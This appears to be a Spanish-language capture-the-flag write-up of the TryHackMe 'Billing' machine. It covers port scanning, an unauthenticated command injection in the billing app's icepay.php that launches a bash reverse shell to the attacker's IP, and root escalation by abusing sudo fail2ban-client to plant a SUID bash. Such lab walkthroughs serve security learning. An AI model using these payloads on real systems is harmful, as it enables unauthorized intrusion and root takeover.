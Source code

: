 ```yaml
---
layout: default
---
```

![image](../../Imágenes%20Máquinas/BILLING.webp)


# BILLING [TRYHACKME]
### (Unauthenticated Remote Command Execution, fail2ban firewall bypass, fail2ban abuse for privilege escalation)

#### - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 

# Escaneo de Nmap

```bash
nmap -p- --open -sS -sCV -T5 10.10.26.117 -n -Pn -vvv -oN nmap_scan
```

Nos encuentra 4 puertos abiertos:

- **22** (ssh)
- **80** (http)
- **3306** (MySQL)
- **5038**


![image](../zimages/Pasted_image_20250316230520.png)

Si nos metemos en la web no hay gran cosa, pero si buscamos el nombre del servicio en google añadiendo la palabra "exploit",  nos salen los siguientes resultados:

![image](../zimages/Pasted_image_20250317004012.png)

Si vemos un par de artículos, vemos que se trata de un "Unauthenticated Remote Command Execution", es decir, que vamos a poder ejecutar comandos sin tener que loguearnos. El siguiente paso es ojear como realizar esta ejecución remota de comandos. Si miramos un par de artículos, vemos el siguiente comando:

![image](../zimages/Pasted_image_20250317004702.png)

El cual usa metasploit y una shell con sh, como yo estoy acostumbrado a otros métodos, he adaptado el comando a una reverse shell con bash normal y corriente, sin necesidad de usar programas externos ni cosas raras:

```bash
curl -s 'http://10.10.26.117/mbilling/lib/icepay/icepay.php' --get --data-urlencode 'democ=;bash -c "bash -i >& /dev/tcp/[nuestra_ip]/[puerto] 0>&1";'
```


Y recibimos la shell:

![image](../zimages/Pasted_image_20250317005048.png)

Si nos vamos a `/home/magnus/user.txt` ya obtenemos la flag de user.


# Escalada de Privilegios

Si ponemos un `sudo -l`, vemos que podemos ejecutar como root el comando `/usr/bin/fail2ban-client`:

![image](../zimages/Pasted_image_20250317005315.png)

Si nos informamos un poco de los comandos y del funcionamiento de esta herramienta, vemos que se trata de una especie de firewall frente a intrusos que intenten acceder a la máquina o realizar ataques DDoS, bloqueando IPs cuando detecta algo raro. También he visto que hay una forma de escalar privilegios cambiando configuraciones mediante el comando `set <JAIL> action <ACT> actionban <CMD>`, el cual podemos ver en la ayuda del programa:

![image](../zimages/Pasted_image_20250317005644.png)

Lo que hay que hacer es, en primer lugar, averiguar que es el JAIL y que es el ACT en ese comando. Para ello vamos a leer un poco las instrucciones que salen por defecto cuando ejecutamos `/usr/bin/fail2ban-client`. 

JAIL lo podemos averiguar con `sudo /usr/bin/fail2ban-client status`:

![image](../zimages/Pasted_image_20250317010121.png)

Esto nos dará una lista de las JAIL disponibles, ahora para los ACT disponibles sería el comando `get [JAIL] actions`, como tenemos que utilizar un JAIL, vamos a poner el que se llama "sshd", que son las configuraciones que nos interesan, las de ssh:

![image](../zimages/Pasted_image_20250317010345.png)

Ahora que ya tenemos toda la información, podemos completar el comando de escalada de privilegios:

```bash
sudo /usr/bin/fail2ban-client set sshd action iptables-multiport actionban "cp /bin/bash /home/magnus | chmod 4755 /home/magnus/bash"
```

He puesto ese comando ya que, al estar utilizando este programa de bloqueo de IPs, no deja establecer una reverse shell, sale automáticamente de la misma. Tampoco me ha funcionado hacer el procedimiento de crear la bash en el directorio `/tmp`, así que he decidido hacerlo en `/home/magnus`:

![image](../zimages/Pasted_image_20250317010904.png)

Ahora si ejecutamos el programa bash y le pasamos el parámetro `-p`, obtenemos una shell como root:

![image](../zimages/Pasted_image_20250317011032.png)

Por último, ejecutamos en esta nueva shell el comando `cat /root/root.txt` y ya obtendríamos la flag de root.


# ./ROOTED

